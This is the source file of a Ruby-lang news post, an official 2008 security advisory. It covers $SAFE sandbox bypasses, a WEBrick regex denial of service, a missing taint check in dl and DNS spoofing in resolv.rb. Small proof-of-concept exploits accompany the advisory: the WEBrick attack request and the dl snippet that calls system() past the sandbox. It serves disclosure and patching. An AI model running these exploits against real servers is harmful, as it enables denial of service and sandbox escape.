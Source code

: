 ```yaml
---
layout: news_post
title: "Ruby中的多個安全漏洞"
author: "SJH"
lang: zh_tw
---
```


Ruby中發現多個安全漏洞。建議更新到最新的版本。

## Details

The following vulnerabilities have been discovered.

### Several vulnerabilities in safe level

Several vulnerabilities in safe level have been discovered.

* untrace\_var is permitted at safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME may be modified at safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Insecure methods may be called at safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # return wrong size
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # or 2, or 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # print string which size is less than 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

These vulnerabilities were reported by Keita Yamaguchi.

### DoS vulnerability in WEBrick

WEBrick::HTTP::DefaultFileHandler is faulty of exponential time taking
requests due to a backtracking regular expression in
WEBrick::HTTPUtils.split\_header\_value.

Exploitable server:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

The request likely won\'t finish in this universe.

This vulnerability was reported by Christian Neukirchen.

### Lack of taintness check in dl
{: #label-3}

dl doesn\'t check taintness, so it could allow attackers to call
dangerous functions.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

This vulnerability was reported by sheepman.

### DNS spoofing vulnerability in resolv.rb

resolv.rb allow remote attackers to spoof DNS answers. This risk can be
reduced by randomness of DNS transaction IDs and source ports, so
resolv.rb is fixed to randomize them.

* see also: [CVE-2008-1447][1]

This vulnerability was reported by Tanaka Akira.

## Vulnerable versions

1.8 series
: * 1\.8.5 and all prior versions
  * 1\.8.6-p286 and all prior versions
  * 1\.8.7-p71 and all prior versions

1.9 series
: * r18423 and all prior revisions

## Solution

1.8 series
: Please upgrade to 1.8.6-p287, or 1.8.7-p72.

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

1.9 series

: Please check out the latest version using Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Please note that a package that corrects this weakness may already be
available through your package management software.

## Credit

Credit to Keita Yamaguchi, Christian Neukirchen, sheepman, and Tanaka
Akira for disclosing these problems to Ruby Security Team.

## Changes

* 2008-08-08 12:21 +09:00 fixed the revision number of ruby 1.9.
* 2008-08-11 11:23 +09:00 ruby 1.8對這些漏洞的修正. 請見 [Ruby 1.8.7-p72 and
  1.8.6-p287 釋出][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/zh_tw/news/2008/09/16/ruby-1-8-7-p72-and-1-8-6-p287-released/
